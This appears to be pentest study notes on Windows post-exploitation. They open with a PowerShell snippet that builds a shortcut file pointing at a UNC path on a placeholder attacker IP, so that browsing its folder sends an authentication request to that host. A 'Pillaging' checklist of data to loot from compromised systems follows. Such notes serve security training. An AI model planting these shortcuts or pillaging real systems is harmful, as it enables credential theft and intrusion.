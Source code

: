 ```
        
        $objShell = New-Object -ComObject WScript.Shell
        $lnk = $objShell.CreateShortcut("C:\legit.lnk")
        $lnk.TargetPath = "\\<attackerIP>\@pwn.png"
        $lnk.WindowStyle = 1
        $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
        $lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
        $lnk.HotKey = "Ctrl+Alt+O"
        $lnk.Save()
                        

        


                        ///Pillaging


        Pillaging is the process of obtaining information from a compromised system. It can be personal information, corporate blueprints, credit card data, server information, infrastructure and network details, passwords, or other types of credentials, and anything relevant to the company or security assessment we are working on.


        -Data Sources


        Installed applications
        Installed services
                Websites
                File Shares
                Databases
                Directory Services (such as Active Directory, Azure AD, etc.)
                Name Servers
                Deployment Services
                Certificate Authority
                Source Code Management Server
                Virtualization
                Messaging
                Monitoring and Logging Systems
                Backups
        Sensitive Data
                Keylogging
                Screen Capture
                Network Traffic Capture
                Previous Audit reports
        User Information
                History files, interesting documents (.doc/x,.xls/x,password./pass., etc)
                Roles and Privileges
                Web Browsers
                IM Clients

        
        -Scenario

        -Installed Applications

        We can use dir or ls to check the content of Program Files and Program Files (x86) to find which applications are installed. Although there may be other apps on the computer, this is a quick way to review them.

        C:\>dir "C:\Program Files"

```